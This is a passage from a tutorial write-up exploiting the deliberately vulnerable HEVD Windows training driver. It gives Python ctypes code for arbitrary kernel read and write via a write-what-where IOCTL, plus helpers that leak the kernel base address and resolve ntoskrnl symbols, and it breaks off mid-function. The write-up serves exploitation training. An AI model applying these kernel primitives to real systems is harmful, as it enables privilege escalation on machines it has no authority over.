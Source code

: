 ```python
        ]

    www = WRITE_WHAT_WHERE()
    tmp = c_ulonglong()
    www.What = c_ulonglong(where)
    www.Where = addressof(tmp)

    do_ioctl(device_handle, pointer(www))
    windll.kernel32.CloseHandle(device_handle)

    return tmp.value


# Exploit the vulnerability to write into arbitrary addresses
def write(what: int, where: int):
    device_handle = get_device_handle()

    if device_handle == -1:
        print('Error while getting handle to driver: {0}'.format(GetLastError()))
        return 1
    
    class WRITE_WHAT_WHERE(Structure):
        _fields_ = [
            ('What', c_ulonglong),
            ('Where', c_ulonglong)
        ]

    www = WRITE_WHAT_WHERE()
    tmp = c_ulonglong(what)
    www.What = addressof(tmp)
    www.Where = c_ulonglong(where)

    do_ioctl(device_handle, pointer(www))
    windll.kernel32.CloseHandle(device_handle)

```

There are two more functions that we will use as helpers. The first one is to leak the kernel base address using the `EnumDeviceDrivers` API. The second one is to load `ntoskrnl.exe` in the context of our process, search for exported symbols and use the kernel base address leaked by `EnumDeviceDriver` to discover where these symbols are located in the running kernel. If you have already exploited other HEVD challenges, probably you're familiar with these techniques.

```python
# Leak the kernel base address using EnumDeviceDrivers API
def get_kernel_base():
    drivers = (c_ulonglong * 2048)()
    bytes_returned = (c_long)()

    windll.Psapi.EnumDeviceDrivers(byref(drivers), sizeof(drivers), byref(bytes_returned))

    return drivers[0]


# Load ntoskrnl.exe in the context of our process using LoadLibrary
# Then, use GetProcAddress to get the address to some exported symbol
# Use the leaked kernel base address to calculate the address of the symbol in the running kernel
def get_kernel_symbol_addr(symbol: bytes):
    kernel_base = get_kernel_base()

    windll.kernel32.LoadLibraryA.restype = c_void_p
    handle = windll.kernel32.LoadLibraryA(b'C:\\Windows\\System32\\ntoskrnl.exe')

    if handle == -1:
```